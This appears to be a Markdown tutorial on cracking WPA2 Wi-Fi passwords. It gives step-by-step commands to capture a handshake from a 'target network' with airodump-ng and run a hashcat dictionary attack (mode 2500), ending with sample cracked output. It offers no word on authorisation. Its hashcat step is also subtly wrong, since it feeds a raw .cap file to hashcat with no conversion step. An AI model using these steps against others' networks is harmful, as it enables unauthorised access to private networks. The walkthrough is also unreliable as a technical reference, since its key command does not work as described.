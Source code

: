 # Cracking WPA/WPA2 Passwords with Hashcat

**Hashcat** is another powerful tool for cracking hashed passwords. It is optimized for **GPU acceleration**, which makes it much faster than CPU-based tools for many types of attacks.

In this example, we'll use **Hashcat** to crack a **WPA2 Wi-Fi password**.

## **Step 1: Install Hashcat (if needed)**

Hashcat is also pre-installed in **Kali Linux**, but if you need to install it manually, use the following command:

```bash
sudo apt-get install hashcat
```

## **Step 2: Capture WPA2 Handshake**

Before cracking WPA2 passwords, you need to capture the **handshake** between a device and the Wi-Fi router. This can be done using **aircrack-ng** or **airodump-ng**.

1. Start **airodump-ng** to monitor your wireless network:
   ```bash
   sudo airodump-ng wlan0mon
   ```

2. Once you see a target network, run **airodump-ng** again to capture the handshake when a client connects to the network:
   ```bash
   sudo airodump-ng --bssid <target-AP-MAC> -c <channel> --write handshake wlan0mon
   ```

   This will capture the handshake and save it as `handshake.cap`.

## **Step 3: Crack WPA2 Handshake with Hashcat**

Once you have the `.cap` file containing the handshake, use **Hashcat** to crack the password.

```bash
hashcat -m 2500 -a 0 handshake.cap /path/to/wordlist.txt
```

Explanation:

- `-m 2500`: Specifies the hash mode for WPA2 (this is the mode used for cracking WPA/WPA2 handshakes).
- `-a 0`: This sets the attack mode to **straight attack** (using a wordlist).
- `handshake.cap`: The file containing the captured WPA2 handshake.
- `/path/to/wordlist.txt`: The wordlist file (dictionary) that Hashcat will use to attempt to crack the password.

**Hashcat** will go through the wordlist, attempting each password until it either cracks the password or exhausts the list.

## **Step 4: Check Cracked Password**

If Hashcat successfully cracks the password, it will display it in the terminal. You can also use this command to see the cracked password:

```bash
hashcat -m 2500 --show handshake.cap
```

Output example:
```
<hash>  password123
```
